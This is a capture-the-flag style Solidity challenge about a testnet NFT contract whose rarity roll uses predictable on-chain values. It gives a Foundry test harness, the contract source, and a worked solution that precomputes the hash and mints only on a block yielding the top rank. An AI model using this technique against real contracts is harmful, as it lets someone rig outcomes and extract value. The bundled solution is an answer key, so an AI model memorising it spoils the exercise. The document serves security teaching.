 # Background
Before the Oracles, it was difficult to generate random numbers. People had to use `sha3(block.number)` or other built-in variables to simulate the randomness.

# The predictable NFT game
In this game, there are 3 possible NFT ranks: Common(1), Rare(2), Superior(3).

Their randomization algorithm is weak, making it possible to predict the minting result.
The contract:
https://sepolia.etherscan.io/address/0x8cC29Bb28f6e789C163d230F0B99652cDD51b794

# The Goal
Analyze the contract's bytecode and find out its weakness.
You have 1 ether to mint 1 token, make sure to mint a Superior one.
You can wait and mint it on the right block.

# Foundry setup:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("https://rpc.ankr.com/eth_sepolia");
		vm.deal(hacker, 1 ether);

		nft = address(0x8cC29Bb28f6e789C163d230F0B99652cDD51b794);
	}

	function test() public {
		vm.startPrank(hacker);

		uint mintedId;

		uint currentBlockNum = block.number;

		// Mint a Superior one, do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// call the function `mint()` on the right block and break the loop
			// ---- hacking time ----

			// ---- end of hacking ----

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}

```

# Hint
- You can use the decompiler on https://sepolia.etherscan.io/bytecode-decompiler?a=0x8cC29Bb28f6e789C163d230F0B99652cDD51b794
- Or refer to the source code at the end.


# Solution
`---- hacking time ----`:
```solidity
			(, bytes memory ret) = nft.call(abi.encodeWithSignature(
				"id()"
			));
			uint nextId = uint(bytes32(ret)) + 1;

			uint score = uint256(keccak256(abi.encode(
				nextId, hacker, currentBlockNum
			))) % 100;

			if(score > 90) {
				(, bytes memory ret) = nft.call{value: 1 ether}(abi.encodeWithSignature(
					"mint()"
				));
				mintedId = uint(bytes32(ret));
				break;
			}
```

# The source code of that contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.19;

contract PredictableNFT {
	uint public id;

	mapping(uint => uint) public tokens; // map of: tokenId => rank

	function mint() external payable returns(uint) {
		require(msg.value == 1 ether, "show me the money");

		id += 1;

		uint rank = random();

		tokens[id] = rank;

		return id;
	}

	function random() private view returns(uint) {
		uint randScore = uint256(keccak256(abi.encode(
			id, msg.sender, block.number
		))) % 100;

		if(randScore > 90) {
			return 3; // Superior
		} else if(randScore > 80) {
			return 2; // Rare
		} else {
			return 1; // Common
		}
	}
}
```


